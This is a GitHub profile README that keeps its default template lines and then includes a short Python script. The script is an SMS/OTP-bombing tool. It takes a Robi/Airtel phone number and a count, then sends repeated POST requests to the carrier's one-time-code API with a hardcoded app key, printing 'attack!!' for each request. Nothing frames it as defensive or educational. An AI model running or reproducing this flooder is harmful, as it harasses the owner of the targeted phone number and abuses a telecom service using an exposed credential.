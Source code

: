 - 👋 Hi, I’m @itzNiiL281
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
itzNiiL281/itzNiiL281 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests

# POST

print( "\033[36m")
print("____________________________________________________________")



print(str (" 			N!!L281"))

print("\033[31m")

number = str(input("	 [>] Enter your Robi/Airtel number: "))

amount= int(input("	 [>] your target amount: "))

api="https://circle.robi.com.bd/mylife/appapi/appcall.php?op=getOTC&pin=11844&app_version=78&msisdn=88"+number

headers={'x-app-key': '000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg'}


for i in range(amount):
  requests.post(api,headers=headers)
  print	(str(i+1)+'____attack!!✓')
